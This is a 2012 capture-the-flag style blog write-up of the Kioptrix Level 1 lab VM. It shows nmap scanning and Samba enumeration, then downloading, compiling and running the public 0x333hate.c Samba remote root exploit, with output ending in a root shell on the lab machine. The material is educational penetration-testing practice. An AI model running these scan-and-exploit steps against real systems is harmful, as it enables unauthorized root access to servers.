 ```yaml
---
layout: post
title: "Kioptrix hacking challenge: Part 1"
date: 2012-07-04 18:10:26 -0400
comments: true
categories: boot2root
alias: /2012/07/kioptrix-hacking-challenge-part-1.html
---
```


Kioptrix is another set of virtual machines that are intended to be hacked into. As of this writing there are currently four Kioptrix challenges. Each one increases in difficulty and is a good start for someone new to penetration testing. Towards the end of last April, I started playing around with it and documented the steps to exploit it. Kioptrix 1 is geared towards the beginner, and is one of the easiest challenges out there.

<!--more-->

The Kioptrix virtual machines can be downloaded from [http://www.kioptrix.com/blog/?page_id=135](http://www.kioptrix.com/blog/?page_id=135)

I identified the IP address of the virtual machine using netdiscover and launched a port scan against it.

```
# nmap -sS -T4 -A 192.168.1.144
 
Starting Nmap 5.61TEST4 ( http://nmap.org ) at 2012-04-23 20:26 EDT
Nmap scan report for 192.168.1.144
Host is up (0.00048s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE              VERSION
22/tcp   open  ssh                  OpenSSH 2.9p2 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey: 1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
| 1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
80/tcp   open  http                 Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods: Potentially risky methods: TRACE
|_See http://nmap.org/nsedoc/scripts/http-methods.html
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp  open  rpcbind (rpcbind V2) 2 (rpc #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1           1024/tcp  status
|_  100024  1           1024/udp  status
139/tcp  open  netbios-ssn          Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/http             Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-09-26 09:32:06
|_Not valid after:  2010-09-26 09:32:06
| http-methods: Potentially risky methods: TRACE
|_See http://nmap.org/nsedoc/scripts/http-methods.html
|_sslv2: server still supports SSLv2
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
1024/tcp open  status (status V1)   1 (rpc #100024)
MAC Address: 00:0C:29:46:F7:8C (VMware)
Device type: general purpose
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:kernel:2.4
OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
Network Distance: 1 hop
 
Host script results:
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown>
 
TRACEROUTE
HOP RTT     ADDRESS
1   0.48 ms 192.168.1.144
```

nmap found a webserver, so I pointed my browser to http://192.168.1.144 and found an Apache test page. I fired up nikto and DirBuster in the background to scan the website for any vulnerabilities and hidden directories. In the meantime, I decided to look into the open Samba port.
nmap didn't print out the Samba version, so I decided to probe it a bit. I used nmblookup and smbclient

```
# nmblookup -A 192.168.1.144
Looking up status of 192.168.1.144
 KIOPTRIX        <00> -         B <ACTIVE> 
 KIOPTRIX        <03> -         B <ACTIVE> 
 KIOPTRIX        <20> -         B <ACTIVE> 
 ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE> 
 MYGROUP         <00> - <GROUP> B <ACTIVE> 
 MYGROUP         <1d> -         B <ACTIVE> 
 MYGROUP         <1e> - <GROUP> B <ACTIVE> 
 
 MAC Address = 00-00-00-00-00-00
 
# smbclient -L //KIOPTRIX -I 192.168.1.144
Enter root's password: 
Anonymous login successful
Domain=[MYGROUP] OS=[Unix] Server=[Samba 2.2.1a]
 
 Sharename       Type      Comment
 ---------       ----      -------
cli_rpc_pipe_open_noauth: rpc_pipe_bind for pipe \srvsvc failed with error ERRnosupport
 IPC$            IPC       IPC Service (Samba Server)
 ADMIN$          Disk      IPC Service (Samba Server)
Anonymous login successful
Domain=[MYGROUP] OS=[Unix] Server=[Samba 2.2.1a]
 
 Server               Comment
 ---------            -------
 KIOPTRIX             Samba Server
 
 Workgroup            Master
 ---------            -------
 MYGROUP              KIOPTRIX
```

I was able to get a listing of the shares without a password. Using smbclient I identified that the server was running Samba 2.2.1a. I headed over to Google and searched for Samba 2.2.1 exploits. This revealed a SANS [paper](http://pen-testing.sans.org/resources/papers/gcih/0x333hatec-samba-remote-root-exploit-102967) about a Samba exploit called 0x333hate.c. A Google search for 0x333hate.c yielded a copy of the exploit, hosted at [SecurityFocus.com](http://downloads.securityfocus.com/vulnerabilities/exploits/0x333hate.c)

I downloaded the file and compiled it.

```
# wget http://downloads.securityfocus.com/vulnerabilities/exploits/0x333hate.c
--2012-04-23 22:34:02--  http://downloads.securityfocus.com/vulnerabilities/exploits/0x333hate.c
Resolving downloads.securityfocus.com... 143.127.139.111
Connecting to downloads.securityfocus.com|143.127.139.111|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6514 (6.4K) [text/plain]
Saving to: `0x333hate.c'
 
100%[=================================================================================================================>] 6,514       --.-K/s   in 0.1s    
 
2012-04-23 22:34:03 (62.5 KB/s) - `0x333hate.c' saved [6514/6514]
 
 
# gcc 0x333hate.c 
0x333hate.c: In function ‘usage’:
0x333hate.c:91: warning: incompatible implicit declaration of built-in function ‘exit’
0x333hate.c: In function ‘exploit’:
0x333hate.c:126: warning: incompatible implicit declaration of built-in function ‘exit’
0x333hate.c:130: warning: incompatible implicit declaration of built-in function ‘exit’
0x333hate.c:134: warning: incompatible implicit declaration of built-in function ‘exit’
0x333hate.c:139: warning: incompatible implicit declaration of built-in function ‘exit’
0x333hate.c:142: warning: incompatible implicit declaration of built-in function ‘exit’
0x333hate.c: In function ‘owned’:
0x333hate.c:201: warning: incompatible implicit declaration of built-in function ‘exit’
0x333hate.c:210: warning: incompatible implicit declaration of built-in function ‘exit’
0x333hate.c:220: warning: incompatible implicit declaration of built-in function ‘exit’
0x333hate.c: In function ‘main’:
0x333hate.c:252: warning: format ‘%x’ expects type ‘unsigned int’, but argument 3 has type ‘long unsigned int’
```

Some warning messages, but no errors. I ran the exploit to see what would happen:

```
# ./a.out 
 
 [~] 0x333hate => samba 2.2.x remote root exploit [~]
 [~]        coded by c0wboy ~ www.0x333.org       [~]
 
 Usage : ./a.out [-t target] [-p port] [-h]
 
  -t target to attack
  -p samba port (default 139)
  -h display this help
```

Pretty simple, takes only one argument which is the IP address of the target. I tried it again and it gave me a root shell instantly:

```
# ./a.out -t 192.168.1.144
 
 [~] 0x333hate => samba 2.2.x remote root exploit [~]
 [~]        coded by c0wboy ~ www.0x333.org       [~]
 
 [-] connecting to 192.168.1.144:139
 [-] stating bruteforce
 
 [-] testing 0xbfffffff
 [-] testing 0xbffffdff
 [-] testing 0xbffffbff
 [-] testing 0xbffff9ff
 [-] testing 0xbffff7ff
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
uid=0(root) gid=0(root) groups=99(nobody)
```

At this point the game was over. I explored the system a little bit and found a congratulatory message from the creator:

```
cat mbox
From root  Sat Sep 26 11:42:10 2009
Return-Path: <root@kioptix.level1>
Received: (from root@localhost)
 by kioptix.level1 (8.11.6/8.11.6) id n8QFgAZ01831
 for root@kioptix.level1; Sat, 26 Sep 2009 11:42:10 -0400
Date: Sat, 26 Sep 2009 11:42:10 -0400
From: root <root@kioptix.level1>
Message-Id: <200909261542.n8QFgAZ01831@kioptix.level1>
To: root@kioptix.level1
Subject: About Level 2
Status: RO
 
If you are reading this, you got root. Congratulations.
Level 2 won't be as easy...
```

This challenge was basically just a scan and exploit against a vulnerable target. Although that seems easy, that's exactly how a lot of servers are compromised. It's not too difficult to find servers running certain vulnerable services and exploits that target them. 

 
